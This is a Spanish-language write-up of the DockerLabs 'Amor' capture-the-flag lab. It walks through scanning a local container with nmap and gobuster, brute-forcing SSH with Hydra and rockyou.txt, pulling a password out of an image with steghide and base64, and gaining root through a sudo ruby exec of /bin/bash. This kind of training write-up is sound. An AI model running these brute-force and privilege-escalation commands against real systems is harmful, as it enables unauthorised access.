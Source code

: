 # DockerLabs - Reto Amor

## Descripción del Ejercicio

Este reto forma parte de la plataforma DockerLabs, orientada a practicar habilidades con Docker mediante laboratorios clasificados por dificultad. En esta ocasión, abordamos el reto de nivel **Fácil** llamado **Amor**, cuyo objetivo es desplegar un contenedor vulnerable, realizar escaneo, explotación por SSH, análisis de imágenes y esteganografía para obtener credenciales privilegiadas.

---

## 🛠️ Despliegue del Laboratorio

### Prerrequisitos
- Tener instalado Docker.

### Descarga del laboratorio

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

### Instalación de Docker en Kali (si no está instalado)

```bash
sudo apt install docker.io
```

### Despliegue de la máquina

```bash
./auto_deploy.sh amor.tar
```

---

## 🔎 Escaneo de la Red

### Paso 1: Identificar interfaz de red

```bash
ip add
```

### Paso 2: Descubrir hosts activos

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

### Paso 3: Escaneo de puertos

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

---

## 🌐 Enumeración Web

### Fuzzing con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

---

## 🔐 Ataque SSH con Hydra

### Ataque de fuerza bruta con Hydra

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

### Conexión SSH y navegación

```bash
ssh carlota@172.17.0.2
cd /carlota/Desktop/fotos/vacaciones
```

### Descarga del archivo

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```

---

## 🕵️‍♀️ Esteganografía

### Inspección de archivo

```bash
file imagen.jpg
steghide --extract -sf imagen.jpg
```

### Decodificación base64

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

### Escalada de privilegios

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
```

---

## 📘 Investigación de Herramientas

| Herramienta   | Definición | Funcionalidad | Casos de Uso |
|---------------|------------|---------------|--------------|
| Docker        | Contenedor ligero | Despliegue de entornos aislados | DevOps, pentesting, microservicios |
| SCP           | Secure Copy Protocol | Transferencia de archivos segura por SSH | Migración de archivos, backups |
| Netdiscover   | Detector de redes | Descubrimiento de IPs activas en red local | Pentesting, análisis de red |
| Nmap          | Network Mapper | Escaneo de puertos y detección de servicios | Auditorías de seguridad |
| Gobuster      | Fuerza bruta en directorios web | Fuzzing de rutas en servidores web | Enumeración de contenido oculto |
| Hydra         | Fuerza bruta por protocolos | Descubrimiento de credenciales | Pentesting SSH, FTP, HTTP |
| Steghide      | Herramienta de esteganografía | Ocultamiento/Extracción de datos en imágenes | CTFs, ciberseguridad ofensiva |
| Base64        | Codificación de datos | Ocultar cadenas en base64 | Transmisión de datos, CTFs |
| Ruby console  | Lenguaje de scripting | Ejecución de comandos con permisos | Escalada de privilegios |

---

## 🔍 Variantes y Explicación de Comandos

(Se explicarán en detalle en la siguiente sección complementaria del README)

---

## 🔄 Diagrama de Flujo del Procedimiento

![Diagrama de Flujo del CTF]()

---

## 🧠 Conclusiones

Este laboratorio permitió aplicar múltiples técnicas de reconocimiento, escaneo, acceso remoto, esteganografía y escalada de privilegios de manera práctica y estructurada, reforzando competencias clave para CTFs y pentesting.

---

## 🖼️ Fuentes e Imágenes

- Capturas obtenidas de entorno real de laboratorio
![Diagrama de Flujo del CTF]()
![Diagrama de Flujo del CTF]()
![Diagrama de Flujo del CTF]()
- Diccionarios: `rockyou.txt`, `dirbuster`
- Imagen descargada en `/Desktop/fotos/vacaciones/imagen.jpg`

